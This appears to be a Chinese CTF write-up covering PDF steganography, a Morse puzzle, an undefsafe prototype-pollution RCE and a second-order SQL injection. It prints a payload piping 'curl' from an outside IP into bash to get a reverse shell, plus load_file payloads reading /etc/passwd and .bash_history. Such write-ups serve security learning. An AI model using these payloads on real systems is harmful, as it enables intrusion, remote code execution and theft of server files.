游戏的开始(MISC)
这道题考查对PDF文档的认识。

奇怪的PDF(MISC)
PDF隐写术

-------------------------------------THERE IS THE FIRST FLAG HERE-----------------------------------------
ABBBB BBBBA AABBB ABBBB BAAAA BBBAA BBBAA ABBBB BBBAA BBBBA BBBAA BBBBB BBBBB BBBBB
--------------------------------------------THERE IS THE FIRST FLAG HERE-----------------------------------------
两个字组合想到摩斯密码，A是点，B是杠
.---- ----. ..--- .---- -.... ---.. ---.. .---- ---.. ----. ---.. ----- ----- -----
所以
flag{19216881898000}
登陆站点
虎头蛇尾(WEB)
一道原型链污染的题https://snyk.io/vuln/SNYK-JS-UNDEFSAFE-548940 undefsafe函数在2.03版本下会产生漏洞 题目源码：
var express = require('express');
var path = require('path');
const undefsafe = require('undefsafe');
const { exec } = require('child_process');
var app = express();
class Notes {
constructor() {
this.owner = "whoknows";
this.num = 0;
this.note_list = {};
}
write_note(author, raw_note) {
this.note_list[(this.num++).toString()] = {"author": author,"raw_note":raw_note};
}
get_note(id) {
var r = {}
undefsafe(r, id, undefsafe(this.note_list, id));
return r;
}
edit_note(id, author, raw) {
undefsafe(this.note_list, id + '.author', author);
undefsafe(this.note_list, id + '.raw_note', raw);
}
get_all_notes() {
return this.note_list;
}
remove_note(id) {
delete this.note_list[id];
}
}
var notes = new Notes();
notes.write_note("nobody", "this is nobody's first note");
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'pug');
app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(express.static(path.join(__dirname, 'public')));
app.get('/', function(req, res, next) {
res.render('index', { title: 'Notebook' });
});
app.route('/add_note')
.get(function(req, res) {
res.render('mess', {message: 'please use POST to add a note'});
})
.post(function(req, res) {
let author = req.body.author;
let raw = req.body.raw;
if (author && raw) {
notes.write_note(author, raw);
res.render('mess', {message: "add note sucess"});
} else {
res.render('mess', {message: "did not add note"});
}
})
app.route('/edit_note')
.get(function(req, res) {
res.render('mess', {message: "please use POST to edit a note"});
})
.post(function(req, res) {
let id = req.body.id;
let author = req.body.author;
let enote = req.body.raw;
if (id && author && enote) {
notes.edit_note(id, author, enote);
res.render('mess', {message: "edit note sucess"});
} else {
res.render('mess', {message: "edit note failed"});
}
})
app.route('/delete_note')
.get(function(req, res) {
res.render('mess', {message: "please use POST to delete a note"});
})
.post(function(req, res) {
let id = req.body.id;
if (id) {
notes.remove_note(id);
res.render('mess', {message: "delete done"});
} else {
res.render('mess', {message: "delete failed"});
}
})
app.route('/notes')
.get(function(req, res) {
let q = req.query.q;
let a_note;
if (typeof(q) === "undefined") {
a_note = notes.get_all_notes();
} else {
a_note = notes.get_note(q);
}
res.render('note', {list: a_note});
})
app.route('/status')
.get(function(req, res) {
let commands = {
"script-1": "uptime",
"script-2": "free -m"
};
for (let index in commands) {
exec(commands[index], {shell:'/bin/bash'}, (err, stdout, stderr) => {
if (err) {
return;
}
console.log(`stdout: ${stdout}`);
});
}
res.send('OK');
res.end();
})
app.use(function(req, res, next) {
res.status(404).send('Sorry cant find that!');
});
app.use(function(err, req, res, next) {
console.error(err.stack);
res.status(500).send('Something broke!');
});
const port = 8080;
app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`))
漏洞点在/status路由，exec导致了任意代码执行，只需要我们污染command字典。通过command字典来执行我们的命令，例如令commads.a=ls
app.route('/status')
.get(function(req, res) {
let commands = {
"script-1": "uptime",
"script-2": "free -m"
};
for (let index in commands) {
exec(commands[index], {shell:'/bin/bash'}, (err, stdout, stderr) => {
if (err) {
return;
}
console.log(`stdout: ${stdout}`);
});
}
res.send('OK');
res.end();
})
2.传参
/edit_note下可以传三个参数，id author enote
app.route('/edit_note')
.get(function(req, res) {
res.render('mess', {message: "please use POST to edit a note"});
})
.post(function(req, res) {
let id = req.body.id;
let author = req.body.author;
let enote = req.body.raw;
if (id && author && enote) {
notes.edit_note(id, author, enote);
res.render('mess', {message: "edit note sucess"});
} else {
res.render('mess', {message: "edit note failed"});
}
})
3.传入后会直接写入当前的note_list
class Notes {
constructor() {
this.owner = "whoknows";
this.num = 0;
this.note_list = {};
}
write_note(author, raw_note) {
this.note_list[(this.num++).toString()] = {"author": author,"raw_note":raw_note};
}
get_note(id) {
var r = {}
undefsafe(r, id, undefsafe(this.note_list, id));
return r;
}
edit_note(id, author, raw) {
undefsafe(this.note_list, id + '.author', author);
undefsafe(this.note_list, id + '.raw_note', raw);
}
接受用户传参并使用，可以利用这点命令执行 playload:`
id=__proto__&author=curl 174.0.112.218/1.txt|bash&raw=123

在edit_note下传入参数，在访问status

5.开个小号在内网服务器var/www/html下写一个shell文件并监听，在访问status时就会反弹shell。

留言板(WEB)
进入题目是这样的

要发帖还必须登录

在这里已经给了你用户名并提示了密码；密码隐藏了后三位，我们可以用爆破爆破后面三位的方法：

由爆破状态码的密码后三位为666，登录进去就可以发帖了。接下来用dirsearch扫描，发现存在.git文件
那应该存在.git文件泄露，用GitHack下载发现有一个write_do.php，但是代码有缺失
查一下之前提交的版本，单独用git log不能全部显示，直接用 git log --all

可以看到，head指针指向的是最早一次commit，通过git reset --hard e5b2a2443c2b6d395d06960123142bc91123148c 命令将head指向第一个commit，得到完整的write_do.php
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
header("Location: ./login.php");
die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
$category = addslashes($_POST['category']);
$title = addslashes($_POST['title']);
$content = addslashes($_POST['content']);
$sql = "insert into board
set category = '$category',
title = '$title',
content = '$content'";
$result = mysql_query($sql);
header("Location: ./index.php");
break;
case 'comment':
$bo_id = addslashes($_POST['bo_id']);
$sql = "select category from board where id='$bo_id'";
$result = mysql_query($sql);
$num = mysql_num_rows($result);
if($num>0){
$category = mysql_fetch_array($result)['category'];
$content = addslashes($_POST['content']);
$sql = "insert into comment
set category = '$category',
content = '$content',
bo_id = '$bo_id'";
$result = mysql_query($sql);
}
header("Location: ./comment.php?id=$bo_id");
break;
default:
header("Location: ./index.php");
}
}
else{
header("Location: ./index.php");
}
?>
后台对输入的参数通过addslashes()对预定义字符进行转义，加上\，预定义的字符包括单引号，双引号，反斜杠，NULL。但是放到数据库后会把转义符 \ 去掉（进入数据库后是没有反斜杠的），并存入数据库中。
发帖的时候所有参数进行了转义才放到sql语句中，但是在cmment中，对于category的值从数据库取出来没有进行转义，直接拼接到sql insert语句中，这就存在二次注入的可能。
- 二次注入可以理解为，攻击者构造的恶意数据存储在数据库后，恶意数据被再次读取并进入到SQL查询语句所导致的注入。防御者可能在用户输入恶意数据时对其中的特殊字符进行了转义处理，但在恶意数据插入到数据库时被处理的数据又被还原并存储在数据库中，当Web程序再次调用存储在数据库中的恶意数据并执行SQL查询时，就发生了SQL二次注入。二次注入和普通的sql注入区别就是，二次注入是把恶意代码放入数据库中，执行后通过select等语句把结果回显，一般存在于insert语句中
本题思路就是通过发帖，在category中放入payload，存入数据库中，不过这一过程payload因为对单引号等作了转义，不会被触发，只有在发帖成功后，在留言comment，调用insert语句时因为没有对数据库取出的category进行转义，直接拼接才会触发payload。
- 发帖

payload:0',content=database(),/*
- 在提交留言处输入
*/#（这个sql语句是换行的，所以我们无法用单行注释符，必须用/**/拼接）
这样 sql语句 拼接 并 闭合 情况如下：
insert into comment
set category = '0',content=database(),/*,
content = '*/#',
bo_id = '$bo_id'
利用content的回显即可看到结果：数据库名为ctf

之后查表等发现都不行，看了师傅们的WriteUp，发现这里是用sql来读取文件。模板：select load_file(‘文件绝对路径’)。
load_file(‘文件绝对路径’)读取文件并返回文件内容为字符串。使用此函数，该文件必须位于服务器主机上，必须指定完整路径的文件，必须有FILE权限。
一般用法步骤：
读/etc/init.d下的东西，这里有配置文件路径
?id=1' union select 1,2,load_file('/etc/init.d/httpd')
得到web安装路径
?id=1' union select 1,2,load_file('/etc/apache/conf/httpd.conf')
读取密码文件
?id=1' union select 1,2,load_file('var/www/html/xxx.com/php/conn.inc.php')
首先读取/etc/passwd，这个文件存放了系统用户和用户的路径
a',content=(select (load_file('/etc/passwd'))),/*
load_file()不用括在括号里也可


读取成功，可以知道www用户（一般和网站操作相关的用户，由中间件创建）的目录是/home/www，可以查询这下面的.bash_history
每个在系统中拥有账号的用户在他的目录下都有一个“.bash_history”文件，保存了当前用户使用过的历史命令，方便查找。
payload:
a',content=(select (load_file('/home/www/.bash_history'))),/*


得到历史记录里之前所执行的命令 可以看到html.zip里面有一个.DS_Store文件，复制到/var/www/html目录下后被删除了，但是在/tmp/下只是删除了压缩包，但是因为有解压的过程，所以解压后生成的文件夹html里还存在.DS_Store文件，读取这个文件。
.DS_Store(英文全称 Desktop Services Store)是一种由苹果公司的Mac OS X操作系统所创造的隐藏文件，目的在于存贮目录的自定义属性，例如文件们的图标位置或者是背景色的选择。通过.DS_Store可以知道这个目录里面所有文件的清单。
payload:
a', content=(select (load_file('/tmp/html/.DS_Store'))),/*

这儿由于文件太大，不能完全显示，所以我们用十六进制编码，然后找个网站解码就行了。改为payload：
a', content=(select hex(load_file('/tmp/html/.DS_Store'))),/*



读取这个flag_8946e1ff1ee3e40f.php文件
payload：
a',content=(select hex(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php'))),/*

十六进制解码后得到flag
